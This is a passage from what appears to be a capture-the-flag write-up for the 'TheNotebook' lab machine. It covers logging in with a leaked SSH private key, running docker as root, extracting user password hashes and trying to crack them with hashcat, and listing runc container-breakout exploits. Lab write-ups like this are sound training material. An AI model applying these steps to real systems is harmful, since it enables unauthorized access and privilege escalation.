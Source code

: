 It's the backup of the **noah**'s home directory.  
It contains the private ssh key. 

We can take it and use it to login as **noah** in ssh (don't forget to restrict the permissions of the `id_rsa` file, otherwise the ssh server will refuse the connection)

```bash
$ ssh noah@10.10.10.230 -i id_rsa

Last login: Wed Feb 24 09:09:34 2021 from 10.10.14.5
noah@thenotebook:~$ 

```

We have now a shell as **noah**.


## Root
Here we start our path to root.

We can execute a `docker` command as **root** without the need of the password

>![]({{ page.dirImg }}/20210506-214242.png){: .shadow}


First thing we do is to look at *GTFObins* but none of the tips applies to our case. 

We can spawn a shell as  the **root** user in docker

>![]({{ page.dirImg }}/20210506-221749.png){: .shadow}

Moving around the docker we find some interesting hashes in `/opt/webapp/create_db.py`:
```python
User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")
```

We try to crack the hashes with  `hashcat`. The algorithm used is probably **SHA3-256** ( as it's the the one used in /`/opt/webapp/main.py`)
```
hashcat -m 17400 -a 0 hash /usr/share/wordlists/rockyou.txt
```
None of the passwords are recovered.

#### Escape the docker container

Let's look at the docker version
```bash
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

We can search for known exploits: 
```bash
$ searchsploit docker 18.06.0
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                      | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                      | linux/local/46369.md
-------------------------------------------------------------------------------- ---------------------------------
```
